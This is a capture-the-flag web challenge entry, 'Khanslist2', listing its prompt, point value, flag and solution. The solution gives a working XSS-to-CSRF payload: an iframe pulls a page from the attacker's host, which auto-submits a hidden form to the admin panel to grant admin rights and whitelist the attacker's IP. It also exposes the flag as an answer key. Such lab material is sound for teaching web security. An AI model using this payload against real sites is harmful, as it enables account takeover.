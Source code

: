 # RunCodeWeb

## Name: Khanslist2

### Category: Web

### Message:
```
Use/Create your account at <a target="_new" href="https://derp.runcode.ninja">Derp Runcode</a>.<br>
They upped their security a bit. But only a bit. Acquire ANOTHER admin account.
<br><br>
<a href="https://twitter.com/ohai_ninja" target="_blank">author: @ohai_ninja</a>
```

### Value: 30

### Max Attempts: 0

### Flag: 
```
derp{XSS_2_B_ADMIN_d3RpM13573R}
```

### Files:
[docker](xss-site-2)
### Solution:
```
Report to admin feature, regular admin does not have flag access. xss admin to edit your account to make you an admin and set safe_ip val appropriately:
<iframe src="http://10.0.16.2:8000/index.html"></iframe>
... ... then in served up index.html ... ...
<form name="xssform" action="http://127.0.0.1/admin.php?cat=users" method="post">
<input type="hidden" name="userid" value="2" />
<input type="hidden" name="email" value="bob@aol.com" />
<input type="hidden" name="admin" value="1" />
<input type="hidden" name="safe_ip" value="10.0.16.2" />
<input type="hidden" name="edit_user" />
</form>
<script>
document.xssform.submit();
</script>
```

